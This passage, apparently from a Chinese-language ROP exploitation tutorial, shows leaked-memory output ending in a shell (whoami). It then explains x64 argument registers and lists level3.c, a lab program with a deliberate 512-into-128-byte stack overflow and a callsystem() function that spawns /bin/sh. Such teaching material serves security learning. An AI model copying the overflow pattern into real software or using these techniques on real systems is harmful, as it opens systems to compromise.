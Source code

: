 ``` 
0xb77adda4 => 04000000
0xb77addac => f5feff6f
0xb77addb0 => b87160b7
0xb77addb4 => 05000000
0xb77addb8 => 584161b7
0xb77addbc => 06000000
0xb77addc0 => 38ae60b7
0xb76071b8 => f3030000
0xb76071bc => 09000000
0xb76071c0 => 00020000
0xb7608390 => 8e050000
0xb7609fa8 => 8ae4ee1c
0xb7610718 => 562f0000
0xb76170ae => 73797374
0xb76170b2 => 656d0074
0xb761071c => 60f40300
system_addr=0xb7646460

###sending payload2 ...###
[*] Switching to interactive mode
$ whoami
mzheng
```

## 0x02 linux_64与linux_86的区别

linux_64与linux_86的区别主要有两点：首先是内存地址的范围由32位变成了64位。但是可以使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。其次是函数参数的传递方式发生了改变，x86中参数都是保存在栈上,但在x64中的前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9中，如果还有更多的参数的话才会保存在栈上。  

我们还是拿实际程序做例子进行讲解,level3.c内容如下：  
``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void callsystem()
{
    system("/bin/sh");
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```
我们打开ASLR并用如下方法编译：  

